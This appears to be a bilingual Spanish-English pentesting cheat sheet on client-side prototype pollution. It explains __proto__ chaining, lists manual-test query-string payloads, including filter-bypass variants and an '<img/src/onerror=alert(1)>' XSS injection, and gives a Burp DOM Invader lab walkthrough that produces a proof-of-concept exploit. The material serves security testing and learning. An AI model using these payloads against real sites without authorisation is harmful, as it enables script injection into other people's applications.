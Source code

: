 Como con cualquier propiedad, se puede acceder `__proto__`utilizando una anotación o punto:

```js
username.__proto__
username['__proto__']

//Incluso puedes encadenar referencias a __proto__ para trabajar su camino hasta la cadena prototipo:

username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null
```

<hr>

## DOM Invader extension - Browser integrado burp - Nuestro mejor amigo para esta Prototype Pollution.

* Use DOM Invader with prototype pollution function to automate the search while navigating
## Manual Test

```js
/?__proto__[foo]=bar
?__proto__.foo=bar 
/?constructor.prototype.foo=bar
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar 
/?constconstructorructor[protoprototypetype][foo]=bar 
/?constconstructorructor.protoprototypetype.foo=bar
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
/?__proto__.property="value"
/?Object.constructor.prototype.property="value"

//Desde console > Object.prototype Para ver si se añadio correctamente foo bar
```

### Automation guide:

1. Load the lab in Burp's built-in browser.
2. [Enable DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/enabling) and [enable the prototype pollution option](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#enabling-prototype-pollution).
3. Open the browser DevTools panel, go to the **DOM Invader** tab, then reload the page.
4. Observe that DOM Invader has identified two prototype pollution vectors in the `search` property i.e. the query string.
5. Click **Scan for gadgets**. A new tab opens in which DOM Invader begins scanning for gadgets using the selected source.
6. When the scan is complete, open the DevTools panel in the same tab as the scan, then go to the **DOM Invader** tab.
7. Observe that DOM Invader has successfully accessed the `script.src` sink via the `value` gadget.
8. Click **Exploit**. DOM Invader automatically generates a proof-of-concept exploit and calls `alert(1)`.
